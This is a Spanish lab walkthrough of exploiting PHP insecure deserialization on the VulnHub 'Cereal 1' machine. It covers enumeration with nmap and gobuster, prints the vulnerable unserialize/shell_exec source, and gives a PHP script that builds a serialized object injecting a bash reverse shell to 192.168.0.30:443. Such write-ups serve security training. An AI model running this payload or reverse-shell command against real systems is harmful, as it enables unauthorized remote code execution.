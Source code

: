 #tecnicas #nmap 
Un ataque de deserialización es una vulnerabilidad de seguridad que ocurre cuando una aplicación deserializa (convierte en objeto) datos provenientes de una fuente externa, como una solicitud de red o un archivo. Esta vulnerabilidad puede ser explotada por un atacante malintencionado para ejecutar código malicioso o manipular datos en la aplicación objetivo.

-------------------

Para esta vulnerabilidad vamos a practicar con la máquina cereal 1 de vulnhub:
![[Pasted image 20240612162458.png]]

Hacemos un escaneo con nmap, donde nos fijaremos en lo que corre por la web:
![[Pasted image 20240612162508.png]]

Esta es la web:
![[Pasted image 20240612162518.png]]

Hacemos fuzzing, donde tenemos el directorio /blog y /admin:
![[Pasted image 20240612162523.png]]

Vemos que la web en el directorio /blog no se ve correctamente:
![[Pasted image 20240612162531.png]]

Y esto es debido a que es posible que se esté aplicando virtual hosting, por lo que miramos el código fuente y vemos que los recursos los está intentando cargar de un cereal.cft:
![[Pasted image 20240612162536.png]]

Por lo que tenemos que añadirlo al /etc/hosts:
![[Pasted image 20240612162540.png]]

Y ahora ya se ve bien:
![[Pasted image 20240612162547.png]]

Ahora si miramos el otro puerto 44441 que también corría un servicio HTTP, vemos que nos sale lo siguiente:
![[Pasted image 20240612162552.png]]

Y dentro de este puerto vamos a buscar subdominios y añadimos el que nos encontró:
```bash
gobuster vhost -u http://cereal.ctf:44441/ -w subdomains-top1million-5000.txt 
```

![[Pasted image 20240612162558.png]]

Y accedemos a este panel:
![[Pasted image 20240612162603.png]]

Podemos probar si se ejecuta de verdad un ping poniéndonos en escucha con tcpdump con este parámetro y vemos que hay conectividad:
```bash
tcpdump -i eth0 -n
```

![[Pasted image 20240612162614.png]]

Vamos a volver a ejecutar un ping pero interceptamos la petición con burpsuite:
![[Pasted image 20240612162621.png]]

Y tenemos un objeto con información:
![[Pasted image 20240612162632.png]]

Pero esa data viene url encodeada, para decodificarla podemos presionar control + shift + u:
![[Pasted image 20240612162647.png]]

Ahora en este punto, hay un directorio dentro de la máquina donde podemos ver cómo se efectúa esta deserialización por detrás, por tanto para encontrar esta ubicación podemos usar gobuster nuevamente pero con un diccionario mucho más grande:

Y esta es la ubicación donde no tenemos permisos:
![[Pasted image 20240612162653.png]]

Pero ahora podemos hacer búsqueda por extensiones de archivos, donde tras ir probando extensiones, nos encontramos el /index.php.bak:
![[Pasted image 20240612162700.png]]

Y nos encontramos con esto:
![[Pasted image 20240612162706.png]]

Y si miramos el código fuente, podemos acceder a cómo se tramita la deserialización por detrás:
```php
<?php

class pingTest {
	public $ipAddress = "127.0.0.1";
	public $isValid = False;
	public $output = "";

	function validate() {
		if (!$this->isValid) {
			if (filter_var($this->ipAddress, FILTER_VALIDATE_IP))
			{
				$this->isValid = True;
			}
		}
		$this->ping();

	}

	public function ping()
        {
		if ($this->isValid) {
			$this->output = shell_exec("ping -c 3 $this->ipAddress");	
		}
        }

}

if (isset($_POST['obj'])) {
	$pingTest = unserialize(urldecode($_POST['obj']));
} else {
	$pingTest = new pingTest;
}

$pingTest->validate();

echo "<html>
<head>
<script src=\"http://secure.cereal.ctf:44441/php.js\"></script>
<script>
function submit_form() {
		var object = serialize({ipAddress: document.forms[\"ipform\"].ip.value});
		object = object.substr(object.indexOf(\"{\"),object.length);
		object = \"O:8:\\\"pingTest\\\":1:\" + object;
		document.forms[\"ipform\"].obj.value = object;
		document.getElementById('ipform').submit();
}
</script>
<link rel='stylesheet' href='http://secure.cereal.ctf:44441/style.css' media='all' />
<title>Ping Test</title>
</head>
<body>
<div class=\"form-body\">
<div class=\"row\">
    <div class=\"form-holder\">
	<div class=\"form-content\">
	    <div class=\"form-items\">
		<h3>Ping Test</h3>
		
		<form method=\"POST\" action=\"/\" id=\"ipform\" onsubmit=\"submit_form();\" class=\"requires-validation\" novalidate>

		    <div class=\"col-md-12\">
			<input name=\"obj\" type=\"hidden\" value=\"\">
		       <input class=\"form-control\" type=\"text\" name=\"ip\" placeholder=\"IP Address\" required>
		    </div>
		<br />
		    <div class=\"form-button mt-3\">
			<input type=\"submit\" value=\"Ping!\">
			<br /><br /><textarea>$pingTest->output</textarea>
		    </div>
		</form>
	    </div>
	</div>
    </div>
</div>
</div>
</body>
</html>";

?>
```

![[Pasted image 20240612162719.png]]
Y aquí en esta parte podemos ver cómo se valida que el input sea una IP y no se pueda colar ningún otro comando; pero nuestro objetivo es poder insertar un comando dentro de la variable ipAddress:
![[Pasted image 20240612162723.png]]

Por tanto vamos a crear un nuevo fichero con la data del principio manipulada para después serializarlo y colarlo en burp suite para ejecutar un comando de forma remota:
```php
<?php

class pingTest {
        public $ipAddress = "; bash -c 'bash -i >& /dev/tcp/192.168.0.30/443 0>&1'";
        public $isValid = True;
        public $output = "";
}

echo urlencode(serialize(new pingTest));
```

![[Pasted image 20240612162732.png]]
Si lo ejecutamos, gracias al echo del final, tendremos el texto deserializado:
![[Pasted image 20230711121239.png]]
Por tanto volvemos a la ventana del principio e interceptamos nuevamente la petición:
![[Pasted image 20240612162737.png]]

![[Pasted image 20240612162746.png]]

Si pegamos en la última línea el código serializado de antes con el código malicioso, lograremos ejecutar un comando de forma remota, y por tanto obtener una reverse shell:
![[Pasted image 20240612162813.png]]

![[Pasted image 20240612162816.png]]

Si lo ejecutamos, obtenemos una reverse shell:

![[Pasted image 20240612162825.png]]